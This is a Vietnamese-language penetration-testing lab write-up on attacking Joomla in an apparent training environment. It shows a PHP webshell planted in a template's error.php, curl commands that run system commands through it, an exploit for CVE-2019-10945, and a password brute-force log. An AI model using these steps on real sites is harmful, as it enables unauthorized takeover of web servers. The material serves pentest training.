


# Attacking Joomla

## 1. Abusing Built-in Functionality → RCE

Nếu đã có tài khoản Administrator, có thể lợi dụng chức năng chỉnh sửa Template để sửa trực tiếp PHP.

Vào:

```ini
Administrator
→ Templates
→ Chọn template
→ Customize
→ error.php
```

Thêm:



```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```



Sau đó gọi:

```bash
curl -s "http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id"
```

Kết quả: `uid=33(www-data)`

> **➡️ Admin credentials → sửa Template PHP → RCE → reverse shell → privilege escalation/lateral movement.**

> Khi pentest thực tế: dùng tên file/parameter khó đoán, hạn chế truy cập nếu cần, và xóa webshell/code sau khi test. Ghi lại filename, hash, location vào báo cáo.

## 2. Joomla Core Vulnerability

Không phải CVE nào cũng có thể khai thác được hoặc có PoC hoạt động.

Trong ví dụ, Joomla 3.9.4 có khả năng bị: **CVE-2019-10945**

→ Directory Traversal + Authenticated Arbitrary File Deletion

Có thể dùng exploit để liệt kê thư mục:

```bash
python2.7 joomla_dir_trav.py \
--url "http://dev.inlanefreight.local/administrator/" \
--username admin \
--password admin \
--dir /
```

Có thể phát hiện các file/thư mục như:

```
administrator
components
configuration.php
templates
plugins
modules
...
```

Đáng chú ý: `configuration.php`

→ Có khả năng chứa thông tin cấu hình/credentials.

Lỗ hổng cũng cho phép xóa file, có thể gây ảnh hưởng hệ thống nếu user webserver có đủ quyền.

---

```bash
┌──(duongnt185㉿WDUONGNT185CSOC)-[~/Desktop]
└─$ sudo nano /etc/hosts                                      
[sudo] password for duongnt185:      
┌──(duongnt185㉿WDUONGNT185CSOC)-[~/Desktop]
└─$ cd joomla-bruteforce                                  
┌──(duongnt185㉿WDUONGNT185CSOC)-[~/Desktop/joomla-bruteforce]
└─$ sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
 admin:admin
```

Đăng nhập và thêm shell vào `error.php`


```bash
┌──(duongnt185㉿WDUONGNT185CSOC)-[~/Desktop/joomla-bruteforce]
└─$ curl -s http://dev.inlanefreight.local/templates/protostar/error.php?abc=id                             
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```bash
└─$ curl -s http://dev.inlanefreight.local/templates/protostar/error.php?abc=ls+-la+/var/www/dev.inlanefreight.local/
total 120
drwxr-xr-x 17 www-data www-data  4096 Sep 21  2021 .
drwxr-xr-x 10 root     root      4096 Aug 25  2021 ..
-rw-r--r--  1 www-data www-data 18092 Mar 11  2019 LICENSE.txt
-rw-r--r--  1 www-data www-data  4883 Mar 11  2019 README.txt
drwxr-xr-x 11 www-data www-data  4096 Mar 11  2019 administrator
drwxr-xr-x  2 www-data www-data  4096 Mar 11  2019 bin
drwxr-xr-x  2 www-data www-data  4096 Mar 11  2019 cache
drwxr-xr-x  2 www-data www-data  4096 Mar 11  2019 cli
drwxr-xr-x 20 www-data www-data  4096 Mar 11  2019 components
-rw-r--r--  1 www-data www-data  2041 Aug 24  2021 configuration.php
-rw-r--r--  1 root     root        26 Sep 21  2021 flag_6470e394cbf6dab6a91682cc8585059b.txt
-rw-r--r--  1 www-data www-data  3151 Mar 11  2019 htaccess.txt
drwxr-xr-x  5 www-data www-data  4096 Mar 11  2019 images
drwxr-xr-x  2 www-data www-data  4096 Mar 11  2019 includes
-rw-r--r--  1 www-data www-data  1420 Mar 11  2019 index.php
drwxr-xr-x  4 www-data www-data  4096 Mar 11  2019 language
drwxr-xr-x  5 www-data www-data  4096 Mar 11  2019 layouts
drwxr-xr-x 12 www-data www-data  4096 Mar 11  2019 libraries
drwxr-xr-x 29 www-data www-data  4096 Mar 11  2019 media
drwxr-xr-x 27 www-data www-data  4096 Mar 11  2019 modules
drwxr-xr-x 19 www-data www-data  4096 Mar 11  2019 plugins
-rw-r--r--  1 www-data www-data   829 Mar 11  2019 robots.txt
drwxr-xr-x  5 www-data www-data  4096 Mar 11  2019 templates
drwxr-xr-x  2 www-data www-data  4096 Mar 11  2019 tmp
-rw-r--r--  1 www-data www-data  1859 Mar 11  2019 web.config.txt
```

